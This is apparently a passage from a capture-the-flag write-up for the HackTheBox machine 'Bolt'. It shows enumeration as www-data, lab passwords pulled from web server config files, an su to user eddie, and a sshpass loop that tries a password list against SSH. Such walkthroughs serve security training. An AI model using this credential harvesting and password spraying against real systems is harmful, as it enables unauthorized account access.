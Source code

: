 
## Shell as eddie

### Enumeration

#### Home Directories

There are two users with homedirs on the system, and www-data can’t access
either:

    
    
    www-data@bolt:/home$ ls -l
    total 8
    drwxr-x--- 15 clark clark 4096 Feb 25  2021 clark
    drwxr-x--- 16 eddie eddie 4096 Aug 26 23:55 eddie
    www-data@bolt:/home$ cd clark
    bash: cd: clark: Permission denied
    www-data@bolt:/home$ cd eddie
    bash: cd: eddie: Permission denied
    

#### DBs

A common place to check for creds is in the various config files for the
webservers. There are four identified servers here. The first three are easy
to find. passbolt required some poking around at NGINX configs in
`/etc/nginx/sites-enabled`:

Server | Web Root | config file | Password(s)  
---|---|---|---  
bolt.htb | `/var/www/dev` | `config.py` | dXUUHSW9vBpH5qRB  
kreepandcybergeek  
demo.bolt.htb | `/var/www/demo` | `config.py` | dXUUHSW9vBpH5qRB  
kreepandcybergeek  
RoundCube | `/var/www/roundcube` | `config/config.inc.php` | WXg5He2wHt4QYHuyGET  
passbolt | `/etc/passbolt`* | `passbolt.php` | rT2;jW7<eY8!dX8}pQ8%  
  
*The actual webroot is `/usr/share/php/passbolt/webroot`, but `/etc/passbolt` is also included, and it has the config file.

### su / SSH

I tried a bunch of these passwords with both eddie and clark, and the
combination of eddie / rT2;jW7<eY8!dX8}pQ8% worked:

    
    
    www-data@bolt:/etc/nginx/sites-enabled$ su - eddie
    Password: 
    eddie@bolt:~$
    

I could also do this in a loop over SSH:

    
    
    for u in clark eddie; do 
      for p in $(cat passwords); do 
        sshpass -p "$p" ssh ${u}@10.10.11.114 -f 'exit' && 
        echo "Success! User: $u Pass: $p"; 
      done; 
    done
    